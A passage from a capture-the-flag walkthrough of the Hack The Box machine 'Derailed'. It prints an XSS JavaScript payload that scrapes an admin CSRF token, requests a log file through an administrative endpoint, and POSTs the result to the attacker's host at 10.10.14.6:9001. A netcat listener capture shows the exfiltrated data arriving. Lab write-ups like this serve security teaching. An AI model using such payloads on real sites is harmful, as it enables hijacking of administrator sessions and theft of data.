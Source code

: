 I’ll craft a payload that will try to fetch the log file (the intended
behaviour) over the XSS.

    
    
    fetch('http://derailed.htb:3000/administration')
      .then(resp => resp.text())
      .then(html => {
        let page = new DOMParser().parseFromString(html, "text/html");
        let token = page.getElementById("authenticity_token").value;
        console.log(token);
        fetch('http://derailed.htb:3000/administration/reports', {
          method: "POST",
          headers: {
            "Content-Type": "application/x-www-form-urlencoded",
          },
          body: "authenticity_token=" + token + "&report_log=report_19_07_2023.log",
        })
        .then(resp => resp.text())
        .then(html => {
          console.log(html);
          fetch('http://10.10.14.6:9001/', {
            method: "POST",
            body: html,
          })
        });
      })
    
    

This will read the `/administration` page, and get the token from it. Then it
will send a POST to `/administration/reports` requesting the log file. The
result will be sent back to me in a POST. After saving this, I’ll submit the
report again, and the file hits my `nc` listening on 9001, with a log file
showing the id of the note and the complaint about it:

    
    
    oxdf@hacky$ nc -lvnp 9001
    Listening on 0.0.0.0 9001                                           
    Connection received on 10.10.11.190 38260                           
    POST / HTTP/1.1                                                     
    Host: 10.10.14.6:9001
    Connection: keep-alive                                              
    Content-Length: 402                                                 
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36            
    Content-Type: text/plain;charset=UTF-8                              
    Accept: */*                                                         
    Origin: http://derailed.htb:3000                                    
    Referer: http://derailed.htb:3000/                                  
    Accept-Encoding: gzip, deflate                                      
    Accept-Language: en-US                                              
                   
    1,alice smells
    1,<b>
    143,aaa
    143,sdfdsaf
    143,asdasdasd
    143,asdsad
    143,asdasd
    143,asdas
    143,asdasd
    143,asdasd
    143,asdasd
    143,asdas
    143,asdasd
    143,asd